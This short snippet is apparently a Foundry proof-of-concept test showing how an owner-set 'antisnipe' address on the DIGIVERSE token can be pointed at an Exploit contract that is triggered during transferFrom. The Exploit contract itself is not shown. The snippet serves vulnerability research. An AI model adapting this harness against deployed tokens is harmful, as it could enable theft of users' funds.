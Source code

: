 My test case is below:
```js
contract MyContractTest is Test {
  DIGIVERSE public target;
  MockUniswapV2Router public mockRouter;
  address public user;
  Exploit public attacker;
  address public owner;
  Utilities internal utils;

  function setUp() public {}

  function testFakeTransfer() public {
    // Create contract and init balance for User
    user = payable(address(uint160(uint256(keccak256(abi.encodePacked("0x0001"))))));
    owner = payable(address(uint160(uint256(keccak256(abi.encodePacked("0x0002"))))));
    console.log("Owner", owner, "User",user);

    // using owner account to create contracts for DIGIVERSE
    vm.startPrank(owner);
    mockRouter = new MockUniswapV2Router();
    target = new DIGIVERSE(address(mockRouter));

    // init balance of user as 1000
    target.transfer(user, 1000);
    vm.stopPrank();

    // Create Exploiter contract and declare labels
    attacker = new Exploit(payable(address(target)),user);

    // Set antisnipe contract address to our exploiter contract
    vm.prank(owner);
    target.setAntisnipeAddress(address(attacker));

    vm.label(user, "User");
    vm.label(address(attacker), "Attacker");
    vm.label(owner, "Owner");
    
    // Test exploit
    uint NUMBER_TOKEN = 100;
    vm.prank(user);
    target.approve(address(attacker), NUMBER_TOKEN);
    console.log("[...] Balance before trigger: ",target.balanceOf(address(attacker)),target.balanceOf(user));
    vm.prank(address(attacker));
    target.transferFrom(user, address(attacker), NUMBER_TOKEN);
    console.log("[###] Balance After trigger: ",target.balanceOf(address(attacker)),target.balanceOf(user));
    console.log("[###] Check trigger:", attacker.trigger());
  }
}
```
